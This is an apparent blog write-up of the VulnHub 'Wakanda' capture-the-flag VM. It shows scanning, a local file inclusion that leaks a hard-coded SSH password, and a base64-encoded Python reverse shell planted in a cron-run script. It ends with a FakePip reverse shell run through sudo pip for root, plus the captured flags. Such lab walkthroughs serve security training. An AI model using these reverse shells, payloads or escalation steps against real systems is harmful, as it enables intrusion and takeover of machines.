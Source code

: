 ```yaml
---
layout: post-detail
title: CTF challenge - wakanda
date: 2018-09-24
categories: CTF
description: CTF wakanda, vm found on: https://www.vulnhub.com/entry/wakanda-1,251/
img-url: ''
comments: true
---
```


# Target

Syn scan.

    $ sudo nmap -sS 192.168.2.0/24

```sh
Nmap scan report for 192.168.2.217
PORT     STATE SERVICE
80/tcp   open  http
111/tcp  open  rpcbind
3333/tcp open  dec-notes
MAC Address: 08:00:27:3C:1E:DB (Oracle VirtualBox virtual NIC)
```

The target contain a web server on port 80.
Now, a scan `tcp` with `Version`.

    $ sudo nmap -sT -sV -A -p- 192.168.2.217

```txt
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Vibranium Market
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          33015/tcp  status
|_  100024  1          41724/udp  status
3333/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
33015/tcp open  status  1 (RPC #100024)
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

A try with netcat:

    $ nc 192.168.2.217 3333
    SSH-2.0-OpenSSH_6.7p1 Debian-5+deb8u4

We found the version of ssh and debian.

A scan with dirb:

    $ dirb http://192.168.2.217 /usr/share/dict/dirb-wordlists/common.txt 

```txt
---- Scanning URL: http://192.168.2.217/ ----
+ http://192.168.2.217/backup (CODE:200|SIZE:0)
+ http://192.168.2.217/index.php (CODE:200|SIZE:1527)
+ http://192.168.2.217/secret (CODE:200|SIZE:0)
+ http://192.168.2.217/server-status (CODE:403|SIZE:301)
+ http://192.168.2.217/shell (CODE:200|SIZE:0)
```

No formular, pages `/backup`, `/secret`, `/shell` are void... `/server-status` need permission... ???

The source code of `/index.php` include a comment who point on a `/?lang=fr` parameter. At bottom, we found the name `mamadou`.

This param is vulnerable to a Local File Inclusion (LFI), according this post on [medium.com](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601) or [securityidiots.com](http://securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html) , i've try many things here.  

The url `?lang=php://filter/convert.base64-encode/resource=index` reveal something.

    $ curl http://192.168.2.217/\?lang\=php://filter/convert.base64-encode/resource\=index -o secret

We purge all html content from the file `secret`, and we will able to decode the content.

    $ cat secret | base64 -d 

```php
<?php
$password ="Niamey4Ever227!!!" ;//I have to remember it

if (isset($_GET['lang']))
{
include($_GET['lang'].".php");
}

?>
```

Try user and pass on ssh:

    $ ssh mamadou@192.168.2.217 -p 3333
    password: Niamey4Ever227!!!
    
```python
>>> help()

Welcome to Python 2.7!  This is the online help utility.
```

Ok... we'll switch on a bash shell.

    >>> import pty;pty.spawn("bash")
    $ uname -a
    $ cd 
    $ cat flag1.txt
    Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc

The second flag is in `/home/devops`.

    $ cat /home/devops/flag2.txt
    cat: /home/devops/flag2.txt: Permission denied

    $ ls -l /home/devops/
    -rw-r----- 1 devops developer 42 Aug  1 15:57 flag2.txt

We need find a way to become `devops` or member of group `developer` for read the key.

    $ find / -user devops 2>/dev/null
    /srv/.antivirus.py
    /tmp/test
    /home/devops
    /home/devops/.bashrc
    /home/devops/.profile
    /home/devops/.bash_logout
    /home/devops/flag2.txt

    $ ls -l /srv/.antivirus.py
    -rw-r--rw- 1 devops developer 36 Aug  1 20:08 /srv/.antivirus.py

Nice, a file where we can write something, like a reverse shell to become `devops:developer`.

    $ msfvenom -p cmd/unix/reverse_python LHOST=192.168.2.111 LPORT=1234 -f raw

```txt
Payload size: 457 bytes
python -c "exec('aW1wb3J0IHNvY2tldCAgLCAgc3VicHJvY2VzcyAgLCAgb3M7ICAgICAgIGhvc3Q9IjE5Mi4xNjguMi4xMTEiOyAgICAgICBwb3J0PTEyMzQ7ICAgICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgLCAgc29ja2V0LlNPQ0tfU1RSRUFNKTsgICAgICAgcy5jb25uZWN0KChob3N0ICAsICBwb3J0KSk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMCk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMSk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMik7ICAgICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))"
```

Modify the file `/srv/.antivirus.py` like this:

```python
#open('/tmp/test','w').write('test')
exec('aW1wb3J0IHNvY2tldCAgLCAgc3VicHJvY2VzcyAgLCAgb3M7ICAgICAgIGhvc3Q9IjE5Mi4xNjguMi4xMTEiOyAgICAgICBwb3J0PTEyMzQ7ICAgICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgLCAgc29ja2V0LlNPQ0tfU1RSRUFNKTsgICAgICAgcy5jb25uZWN0KChob3N0ICAsICBwb3J0KSk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMCk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMSk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMik7ICAgICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))
```
Open a socket on your machine:

    $ nc -lvp 1234

And the script will start by itself like it use cron.

    $ id 
    uid=1001(devops) gid=1002(developer) groups=1002(developer)
    cat /home/devops/flag2.txt
    Flag 2 : d8ce56398c88e1b4d9e5f83e64c79098

To read the last key, we need permission of `root`, so with sudo or anything.

    sudo -l
    User devops may run the following commands on Wakanda1:
    (ALL) NOPASSWD: /usr/bin/pip

Devops can execute `/usr/bin/pip` without password...

    ls -l /usr/bin/pip
    -rwxr-sr-- 1 root developer 281 Feb 27  2015 /usr/bin/pip

Unfortunately, we can't write on this file to execute a reverse shell.

After googling thoroughly, we can use `fakepip`.  
Download the file from [fakepip](wget https://raw.githubusercontent.com/0x00-0x00/FakePip/master/setup.py)

    $ wget -cv https://raw.githubusercontent.com/0x00-0x00/FakePip/master/setup.py

Edit this file to change the `RHOST` and `lport`.

```python
RHOST = '192.168.2.111'  # change this
lport = 3333
```
Next, we need a find a way to upload our payload. We create a simple server with python, you can use `darkhttpd`, `ngrok` too or upload the file at `https://transfer.sh`.

    $ python2.7 -m SimpleHTTPServer 4444

From the vm, wget -cv http://192.168.0.111:4444/setup.py

Start netcat:

    $ nc -lvp 443

With ou user `devops`, launch pip:

    $ sudo pip install . --upgrade --force-reinstall

You are root now:

```txt
listening on [any] 3333 ...
192.168.2.217: inverse host lookup failed:
connect to [192.168.2.111] from (UNKNOWN) [192.168.2.217] 57633
root@Wakanda1:/tmp/pip-QVoVOV-build#
```
    cd
    cat root.txt

```txt
 _    _.--.____.--._
( )=.-":;:;:;;':;:;:;"-._
 \\\:;:;:;:;:;;:;::;:;:;:\
  \\\:;:;:;:;:;;:;:;:;:;:;\
   \\\:;::;:;:;:;:;::;:;:;:\
    \\\:;:;:;:;:;;:;::;:;:;:\
     \\\:;::;:;:;:;:;::;:;:;:\
      \\\;;:;:_:--:_:_:--:_;:;\
       \\\_.-"             "-._\
        \\
         \\
          \\
           \\ Wakanda 1 - by @xMagass
            \\
             \\


Congratulations You are Root!

821ae63dbe0c573eff8b69d451fb21bc
```

This vm was very instructive :)
